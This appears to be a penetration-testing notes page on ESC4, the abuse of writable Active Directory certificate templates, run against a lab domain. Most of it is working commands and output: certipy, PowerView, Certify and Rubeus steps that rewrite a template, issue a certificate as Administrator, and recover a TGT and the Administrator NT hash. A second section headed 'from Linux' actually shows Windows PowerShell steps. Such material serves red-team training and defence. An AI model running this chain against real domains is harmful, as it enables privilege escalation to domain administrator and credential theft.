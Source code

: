```yaml
---
description: ESC4 | Access control attack | Active Directory Certificate Services
---
```


# ESC4

ESC4 uses acces control attacks to exploit misconfigurations in the Certificate Authority or the certifate's DACLs, where low-privileged users can perform dangerous tasks. With elevated privileges over an object its possible to perform various actions, like with FullControl over a user we can reset the password.

{% hint style="info" %}
Certificate templates in Active Directory have permissions that control who can access and modify them. These permissions are set using a security descriptor. A template is misconfigured if it allows unintended or unprivileged users to edit it.
{% endhint %}

### ESC4 from Linux

Start with finding vulnerable templates

```bash
# Enumeration
certipy find -u 'blwasp@lab.local' -p 'Password123!' -dc-ip 10.129.205.199 -vulnerable -stdout

# Result
    [!] Vulnerabilities
      ESC4                              : 'LAB.LOCAL\\Black Wasp' has dangerous permissions
```

#### Abuse from Linux

With certify we can simply configure all required settings in one command having the proper rights over a template. We need to use the `template` option with the name of the template. -save-old is used to restore.

{% hint style="info" %}
When facing dns problems or in need of kerberos auth use `-target` which set DNS Name or IP Address of the target machine. Required for Kerberos or SSPI authentication
{% endhint %}

```bash
# Configure template
└─$ certipy template -u 'BlWasp@lab.local' -p 'Password123!' -target 10.129.228.236 -template ESC4 -save-old
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved old configuration for 'ESC4' to 'ESC4.json'
[*] Updating certificate template 'ESC4'
[*] Successfully updated 'ESC4'
```

Next we can set UPN and the administrator hashs

```bash
└─$ certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -template ESC4 -upn Administrator
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 64
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'    

└─$ certipy auth -pfx administrator.pfx -username Administrator -domain lab.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@lab.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@lab.local': aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe                      
```

### ESC4 from Linux

Start with finding vulnerable templates with

```powershell
.\Certify.exe find
```

Import PowerView

```powershell
PS C:\Tools> Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
PS C:\Tools> Import-Module .\PowerView.ps1
```

Add Certificate Enrollment rights

```powershell
Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domain Users" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=lab,DC=local" -Verbose
```

Disable manager approval requirement

```
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-enrollment-flag'=9} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-enrollment-flag' to '9' for object ''
```

Disable `Authorized Signature Requirement`. Set `mspki-ra-signature` attribute to `0`:\\

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-ra-signature' to '0' for object ''
```

Allow requesters to specify a `subjectAltName` in the `CSR`

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-name-flag'=1} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] XORing 'mspki-certificate-name-flag' with '1' for object ''=
```

Allow this certificate to be used for `Client Authentication`.

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'pkiextendedkeyusage' to '1.3.6.1.5.5.7.3.2' for object ''
```

Setting mspki-certificate

```powershell
PS C:\Tools> Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local" -Identity ESC4 -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://LAB-DC.LAB.LOCAL/CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=lab,DC=local
VERBOSE: [Get-DomainObject] Get-DomainObject filter string: (&(|(|(samAccountName=ESC4)(name=ESC4)(displayname=ESC4))))
VERBOSE: [Set-DomainObject] Setting 'mspki-certificate-application-policy' to '1.3.6.1.5.5.7.3.2' for object ''
```

With Certify request alternive SAN

```powershell
.\Certify.exe request /ca:LAB-DC\lab-LAB-DC-CA /template:ESC4 /altname:Administrator
```

Convert the certificate

```powershell-session
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in admin-esc4.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin-esc4.pfx
```

Authenicate with certificate

```powershell-session
.\Rubeus.exe asktgt /user:administrator /certificate:admin-esc4.pfx /getcredentials
```
